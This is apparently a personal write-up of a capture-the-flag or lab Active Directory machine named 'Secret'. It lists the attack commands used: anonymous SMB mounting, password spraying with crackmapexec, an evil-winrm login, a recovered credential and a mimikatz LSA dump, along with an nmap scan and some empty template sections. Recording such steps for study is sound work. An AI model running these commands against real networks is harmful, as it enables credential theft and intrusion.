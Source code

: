 ```yaml
---
title: Secret
created: '2020-07-05T13:25:09.540Z'
modified: '2020-07-05T14:04:29.878Z'
---
```


# Secret
- IP: `172.31.1.4`
- OS: `Active Directory`
## Enumeration
### Writeup
`mount -t cifs -o username=anything,password= //172.31.1.4/Office_Share /mnt/Office_Share`
In the share we find this default password: `SecretOrg!`
`crackmapexec smb 172.31.1.4 -u formatted_name_wordlist.txt -p 'SecretOrg!' --shares`
`evil-winrm -i 172.31.1.4 -u jcakes -p 'SecretOrg!'`

Auto-logon credentials: `vF4$x9#z:-eT~Fy`

`./mimikatz.exe "privilege::debug" "lsadump::lsa /patch" "exit"`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.4`
```

```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
